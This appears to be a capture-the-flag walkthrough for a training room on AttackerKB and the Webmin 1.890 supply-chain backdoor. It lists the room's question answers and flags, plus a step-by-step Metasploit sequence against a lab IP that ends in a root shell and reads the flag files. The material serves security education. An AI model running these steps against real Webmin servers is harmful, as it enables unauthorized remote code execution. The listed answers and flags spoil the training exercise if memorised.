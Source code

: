 ```yaml
---
Learn how to leverage AttackerKB and learn about exploits in your workflow!
---
```


> For our purposes, think of AttackerKB as similar to Exploit-DB but with a higher degree of information surrounding vulnerabilities and the exploits therein associated with them. 

###### Technical Analysis
This was a supply chain attack: http://www.webmin.com/exploit.html. The backdoor was introduced in a version that was “exploitable” in the default install. Version 1.890 is the money. Anything after requires a non-default setting.

> On August 17th 2019, we were informed that a 0-day exploit that made use of the vulnerability had been released. In response, the exploit code was removed and Webmin version 1.930 created and released to all users. 

[Webmin backdoor](https://github.com/rapid7/metasploit-framework/pull/12219)

## Metasploit

```
msfconsole -q
```

```
search webmin
```

```backdoor
use 5
```

```
show options
```

```
set rhost 10.10.96.58
```

```
set ssl true
```

```
set rport 10000
```

```vpn-ip
set lhost 10.18.1.77
```

```
exploit
```

```
python -c "import pty;pty.spawn('/bin/bash')"
```

```
cat /home/dark/user.txt
```

```
cat /root/root.txt
```

- Scan the machine with Nmap. What non-standard service can be found running on the high-port? *Webmin*
- Further enumerate this service, what version of it is running? *1.890*
- Visit the webpage generated by this service. You should encounter an error due to SSL being present. Change the URL to use HTTPS and ignore the exception. After this, view the certificate. What hostname can we find on the cert details? On Firefox, you can view this by clicking on the 'i' in the URL, then the '>' in Connection, 'More Information', and then 'View Certificate' on the Security tab. *source*
- Adjust your /etc/hosts file accordingly to include the newly discovered hostname and revisit the webpage in question. Note, that this will confirm that the service we previously discovered using Nmap is correct. Once you've done this, move onto task three. *No answer needed*
- The AKB dashboard at the time of writing. Note, we won't have to log in for what we're doing. That being said, logging in (via GitHub OAuth) allows us to post and contribute to discussions surrounding vulnerabilities. *No answer needed*
- AKB allows us to search for various vulnerabilities via the search bar at the top right of the site. Search now for 'Webmin' and click on 'password_change.cgi' *No answer needed*
- Take a look through the Assessments for this vulnerability. As an attacker, we can use the information posted here by other members to determine how value an exploit might be and any tweaks we might have to make to exploit code. Similarly, as a defender we can leverage these comments to gain additional situational information for vulnerabilities, allowing us to gauge how quickly we need to patch them. Which version of Webmin is immediately vulnerable to this exploit? *1.890*
- What type of attack was this? Note, we're looking for how this was added to the code for Webmin, not how this results in remote code execution (RCE). *supply chain*
- Can you find a link to a post on the webmin's website explaining what happened? What day was Webmin informed of an 0day exploit? *August 2019 17th*
- Last but certainly not least, let's find the link to our exploit. We can see in the Assessments that a Metasploit module was added for this backdoor. What pull number was this added in? *12219*
- Launch Metasploit now as we'll be leveraging the Metasploit module for this exploit. *No answer needed*
- With Metasploit open, search for and select the exploit we previously investigated. *No answer needed*
- Now that we've selected our exploit, set the options provided appropriately. Beyond RHOSTS and LHOST, what is the third option we must set to 'True'? *ssl*
-  Run the exploit. What is the user flag? *THM{SUPPLY_CHAIN_COMPROMISE}*
- How about the root flag? *THM{UPDATE_YOUR_INSTALL}*











